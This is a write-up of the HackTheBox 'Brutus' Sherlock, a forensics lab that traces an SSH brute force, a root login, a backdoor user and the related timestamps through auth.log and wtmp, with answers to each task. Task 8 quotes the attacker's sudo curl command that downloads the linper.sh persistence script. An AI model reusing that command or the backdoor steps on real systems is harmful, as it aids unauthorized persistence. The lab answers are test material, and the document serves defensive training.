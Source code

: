 ```yaml
---
title: "Sherlock - Brutus - English"
summary: "Sherlock from HackTheBox about unauthorized login attempts on a Confluence server. The auth.log and wtmp files are provided for investigation."
date: "Jan 01 2025"
draft: false
tags:
- HackTheBox
- Sherlock
- Very easy
- Tutorial
- English
---
```




<SherlockBeginningTable  lang={LANG_EN} 
  data={[
    { content: `In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs.
    We'll explore a scenario where a Confluence server was brute-forced via its SSH service. 
    After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. 
    Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, 
    including aspects of privilege escalation, persistence, and even some visibility into command execution.` },
    { content: "auth.log, wtmp" },
  ]} />

<div align="center">
  <img width="500px" src="/public/sherlocks/brutus_images/Sherlock_logo.png" />
</div> 

## Tasks

---

<SherlockTask lang={LANG_EN} 
    task_number="1" 
    task_content="Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?" 
    hint_content="Searching for keywords associated with brute force attempts may help in identifying potential attacks." 
    answer="65.2.161.68"/>

- We can search for the keywords `Invalid user` to find out the attacker's IP with any of these commands:

<CodeBlock code={"grep \"Invalid user\" auth.log"}/>

<CodeBlock code={"cat auth.log | grep \"Invalid user\""}/>

- The logs have this format:

<CodeBlock code={"Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380"}/>

- There are many failed login attempts from the IP 65.2.161.68 with user accounts suggesting elevated privileges (`admin`, `server_adm`, `svc_account` and `root`). That's the IP we are looking for.

---

<SherlockTask lang={LANG_EN} 
    task_number="2" 
    task_content="The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?" 
    hint_content="Look for keywords indicating successful login attempts to identify the compromised account." 
    answer="root"/>

- Taking a look to the `auth.log` file, we can see that access was gained with the user `root` from the IP 65.2.161.68, which is the attacker's IP as mentioned earlier.

<CodeBlock code={"Mar 6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2"}/>

- We can filter with the keywords `Accepted password`, though:

<CodeBlock code={"cat auth.log | grep \"Accepted password\""}/>


---

<SherlockTask lang={LANG_EN} 
    task_number="3" 
    task_content="Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?" 
    hint_content="It's important to note that the first successful login by the attacker was the result of an automated brute force attempt, and the session was 
    closed within the same second it was established. After obtaining the working credentials, the attacker manually logged in, and we need to identify that login. 
    Use the wtmp artifact to view the login time of the working session and correlate that with auth.log." 
    answer="2024-03-06 06:32:45"/>

- Since in `auth.log` the timestamp has this format `Month Day HH:mm:SS` and the requested format is `YYYY-MM-DD HH:mm:SS`, we need to search in the `wtmp` file.
- With this command, we can see all logins in that file:

<CodeBlock code={"utmpdump wtmp"}/>
    
- But we can filter by the username with which the attacker gained access, which in this case is what we are interested in:

<CodeBlock code={"utmpdump wtmp | grep 'root'"}/>

<SherlockBodyImage src="/sherlocks/brutus_images/Brutus_task_3.png"/>

- We can see that in the last line, the login from the IP 65.2.161.68 has a similar timestamp format to `YYYY-MM-DD HH:mm:SS`. There is our answer.

---

<SherlockTask lang={LANG_EN} 
    task_number="4" 
    task_content="SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?" 
    hint_content="A session number is assigned immediately after the password is accepted." 
    answer="37"/>

- Considering the previous timestamp, we can search in `auth.log` around that time.
- We search for that hour and those minutes (we could also search for the user `root`, though):

<CodeBlock code={"cat auth.log | grep '06:32'"}/>

<SherlockBodyImage src="/sherlocks/brutus_images/Brutus_task_4.png"/>

- We see that one second before (06:32:44), the number 37 is assigned to the `root` user's session.

---

<SherlockTask lang={LANG_EN} 
    task_number="5" 
    task_content="The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?" 
    hint_content="Auth.log also tracks changes related to users and groups on the server. Look for keywords indicating user additions or privilege assignments." 
    answer="cyberjunkie"/>

- Reviewing the `auth.log` file, we realize that after gaining access, the attacker creates a new user with the name `cyberjunkie`, through `useradd` command, in order to maintain persistent access to the system (creating a backdoor):
    
<CodeBlock code={"Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1"}/>
     
---

<SherlockTask lang={LANG_EN} 
    task_number="6" 
    task_content="What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?" 
    hint_content="If you have found the answer to Question 5, consult the MITRE ATT&CK enterprise matrix to determine the sub-technique ID under the persistence tactic." 
    answer="T1136.001"/>

- To do this, we go to the URL https://attack.mitre.org and search in **Persistence > Create Account > Local Account**.

---

<SherlockTask lang={LANG_EN} 
    task_number="7" 
    task_content="What time did the attacker's first SSH session end according to auth.log?"
    answer="2024-03-06 06:37:24"/>

- Knowing the SSH session number, we can filter by it as follows:
    
<CodeBlock code={"cat auth.log | grep 'session 37'"}/>
    
<SherlockBodyImage src="/sherlocks/brutus_images/Brutus_task_7.png"/>

- The second line indicates the time when the session was closed, with the state `Removed session 37`.

---

<SherlockTask lang={LANG_EN} 
    task_number="8" 
    task_content="The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?" 
    hint_content="Although auth.log is not typically used to track command executions like auditd, commands executed with sudo are logged in auth.log since the system needs to authenticate the account's privileges to grant root level permissions for that command. Search for the keyword 'COMMAND' to find commands executed using sudo."
    answer="/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh"/>

- The system needs to authenticate the account to grant administrative permissions for commands executed with `sudo`, which would be recorded in `auth.log`, as the hint states. We can filter by:
    
<CodeBlock code={"cath auth.log | grep \"COMMAND\""}/>
 
<SherlockBodyImage src="/sherlocks/brutus_images/Brutus_task_8.png"/>   

- One of the lines shows us the `curl` command that the attacker executed and the script URL that he downloaded.

---

<SherlockFinalContent lang={LANG_EN}/>
